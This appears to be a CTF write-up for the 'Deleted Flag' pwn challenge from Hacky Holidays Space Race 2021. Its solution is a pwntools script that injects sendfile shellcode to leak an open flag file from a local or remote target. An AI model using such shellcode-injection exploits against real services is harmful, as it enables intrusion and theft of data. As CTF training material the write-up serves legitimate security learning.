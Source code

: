 ```yaml
---
name: Deleted Flag (2021)
event: Hacky Holidays Space Race CTF 2021
category: Pwn
description: Writeup for Deleted Flag (pwn) - Hacky Holidays Space Race CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Deleted Flag

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/hY446_xs-DE/0.jpg)](https://youtu.be/hY446_xs-DE?t=2368s "Hacky Holidays Space Race 2021: Deleted Flag")

## Challenge Description

> We've removed your flag. Good luck getting it back.

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break fopen
continue
'''.format(**locals())

# Binary filename
exe = './app'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Save the flag to file
write('flag.txt', 'CTF{fake_flag_for_testing}')

# Start program
io = start()

# https://www.tutorialspoint.com/unix_system_calls/sendfile.htm
shellcode = asm(shellcraft.sendfile(1, 3, 0, 4096))  # out_fd is stout (1), in_fd is (3) locally and (5) remotely
write('payload', shellcode)

# Send the payload
io.sendlineafter('flag?', shellcode)

# Got Shell?
io.interactive()
```
{% endcode %}
